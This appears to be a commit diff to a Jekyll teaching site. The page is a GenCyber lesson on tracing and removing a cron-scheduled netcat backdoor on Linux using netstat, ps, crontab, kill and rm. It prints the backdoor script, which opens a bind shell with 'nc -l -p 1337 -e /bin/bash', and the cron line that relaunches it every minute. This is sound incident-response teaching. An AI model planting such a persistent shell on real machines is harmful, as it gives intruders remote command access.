

Before and after one commit to slackboxster/slackboxster.github.io, a Jekyll site: the page built from gencyber2017/lesson.md, in a window 1280 px wide and 1400 px high, scrolled down 3581 px. Shown: the whole window at 92% size, without its empty margins (3-1031 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Rework the backdoor investigation.

````diff
--- a/gencyber2017/lesson.md
+++ b/gencyber2017/lesson.md
@@ -74,56 +74,55 @@ In order to find and remove these backdoors from the inside:
 1. Figure out which process is listening on the backdoor port:
     * `netstat -tulpn | grep 1337`
     * `tcp    0    0 0.0.0.0:1337    0.0.0.0:*    LISTEN    3652/nc`
-    * in this case 3652 is the process id.
-2. Figure out which files are being used by the process.
-    * `lsof -p 3652` (change the number to match the process id)
-
-    ```
-    COMMAND  PID USER   FD   TYPE DEVICE SIZE/OFF    NODE NAME
-    nc      3652 rose  cwd    DIR    8,1     4096 2097264 /home/rose
-    nc      3652 rose  rtd    DIR    8,1     4096       2 /
-    nc      3652 rose  txt    REG    8,1    27160  655411 /bin/nc.traditional
-    nc      3652 rose  DEL    REG    8,1          1576273 /lib/x86_64-linux-gnu/libnss_files-2.13.so
-    nc      3652 rose  DEL    REG    8,1          1576266 /lib/x86_64-linux-gnu/libc-2.13.so
-    nc      3652 rose  DEL    REG    8,1          1576264 /lib/x86_64-linux-gnu/ld-2.13.so
-    nc      3652 rose    0u  sock    0,7      0t0    7534 can't identify protocol
-    nc      3652 rose    1u   REG    8,1        0 2490381 /tmp/tmpfhdUXJp (deleted)
-    nc      3652 rose    2u   REG    8,1        0 2490381 /tmp/tmpfhdUXJp (deleted)
-    nc      3652 rose    3u  IPv4   7535      0t0     TCP *:1337 (LISTEN)
-
-    ```
-
-    * Things to note:
-        * the user for all these commands is rose -- so rose is the one running the backdoor.
-        * some of the files used by the process are the program that it is running. In this case, `/bin/nc` is the actual program. But nc is a basic program. We need to figure out HOW rose is running the program.
-        * Don't just kill the process. You could eliminate the trail to the process. But in this case, it's actually easy -- the process will restart in a minute if we kill it.
-        * Why??? something is restarting the process! Probably a scheduled task. In linux, cron is the way to create scheduled tasks.
-        * Edit rose's crontab:
-            * `crontab -u rose -e`
-            * This line: `* * * * * /usr/sbin/backdoor` tells the scheduler to run the program `/usr/sbin/backdoor` every minute.
-            * remove that line from the crontab.
-            * make sure it's been removed: `crontab -u rose -l`
-        * for fun: explanation of the backdoor:
-
-            ```bash
-            ## It is a script:
-            #!/bin/bash
-
-            ## This is the command it uses to check that the script is running:
-            isOn=`netstat -tln | grep ':1337'|wc -l`
-
-            ## The if statement checks the result of the isOn command -- if it is zero, then
-            if [ $isOn == "0" ]
-            then
-              ## It starts a netcat command that enables data sent to the 1337 port to give access to bash (the command line)
-              nc -l -p 1337 -e /bin/bash
-            fi
+    * in this case 3652 is the process id. Now that we have the process ID, we can find out where it came from.
+2. Figure out how the process is being run:
+    * Now that we have a process ID, we could simply kill the process. However, there are two reasons we should do more investigating first:
+        1. Killing the process would make it harder to track it down. The running process provides clues to its location. With that said, you may want to somehow block access to that machine while you investigate, if you are running live.
+        2. If you were to kill this particular process, you would be surprised to discover the backdoor running again less than a minute after you killed it.
+    * We can trace a process using the process tree:
+        * `ps -eFH` lists processes running on the system in a tree form -- showing which processes own which other processes.
+        * `ps -eFH | grep -B5 <the process id of nc>` will show us the line of the `nc` process that is actually listening on the port, as well as 5 lines before it, enabling us to see the tree leading to that process.
+        * The output from this command tells us that netcat is being run by the script `/usr/sbin/backdoor`, which was ultimately run by `/USR/SBIN/CRON`
             ```
-        * Now remove the backdoor file:
-            * `rm /usr/sbin/backdoor`
+            root     16142  2520  0 14614  1556   0 20:44 ?        00:00:00     /USR/SBIN/CRON
+            rose     16143 16142  0  1047   588   0 20:44 ?        00:00:00       /bin/sh -c /usr/sbin/backdoor
+            rose     16144 16143  0  2690  1388   0 20:44 ?        00:00:00         /bin/bash /usr/sbin/backdoor
+            rose     16149 16144  0  1549   724   0 20:44 ?        00:00:00           nc -l -p 1337 -e /bin/bash
+            ```
+        * Since cron is the task scheduling system on linux, we know that it is a scheduled task that is triggering the backdoor. We also know where the backdoor is located. And, since the owner of the backdoor processes is `rose`, we can guess that it is rose's crontab that is scheduling the backdoor (If you want to learn more about cron or scripting, look at the resources section).
+    * So let's remove that line from rose's crontab:
+        * `crontab -u rose -e`
+        * This line: `* * * * * /usr/sbin/backdoor` tells the scheduler to run the program `/usr/sbin/backdoor` every minute.
+        * remove that line from the crontab.
+        * make sure it's been removed: `crontab -u rose -l`
+    * Now we can kill the process and it will stay dead.
+        * `kill -s SIGKILL <the process id goes here>`
+    * Now remove the backdoor file:
+        * `rm /usr/sbin/backdoor`
 3. Verify that it's gone:
     * no more listening `netstat -tulpn | grep 1337` ( should give no output )
     * files are gone `cat /usr/sbin/backdoor` (should say "no file or directory")
+
+As a fun aside, here's an explanation of the backdoor:
+
+```bash
+## It is a script:
+#!/bin/bash
+
+## This is the command it uses to check that the script is running:
+isOn=`netstat -tln | grep ':1337'| wc -l`
+
+## The if statement checks the result of the isOn command -- if it is zero, then
+if [ $isOn == "0" ]
+then
+  ## It starts a netcat command that enables data sent to the 1337 port to give access to bash (the command line)
+  nc -l -p 1337 -e /bin/bash
+fi
+```
+
+Another note: with this backdoor, we could simply remove the offending file from /usr/sbin and killed the process. Then the scheduled task would simply stop working because it wouldn't have a program to execute. However, other backdoors could be more complicated (for example, if another scheduled task regenerated the backdoor in the location where you deleted it). So backdoors have to be treated with a lot of investigation and care.
+
+In a corporate environment, you would possibly have a good chat with Rose. You may even give her a kind invitation to no longer work in your organization. Or perhaps, invite some helpful Law Enforcement Officers to have a conversation with her. ;)
 
 Once we've cleaned up the operating system, we can move on to the server itself.
 
@@ -416,6 +415,7 @@ Learn the basics from the [learning the shell tutorial](http://linuxcommand.org/
 
 If you already know how to use the command line, you should learn scripting. Scripting unleashes the true power of linux and its command line. You can learn more about that from [a different tutorial on the site](http://linuxcommand.org/lc3_writing_shell_scripts.php).
 
+You can make your scripts even more useful with scheduling. Here's [an article on cron](http://www.unixgeeks.org/security/newbie/unix/cron-1.html)
 
 For the adventurous: I love using vim. If you are bored and want a really cool challenge, learn vim. Try [this vim tutorial to get started](http://www.openvim.com/).
 
````
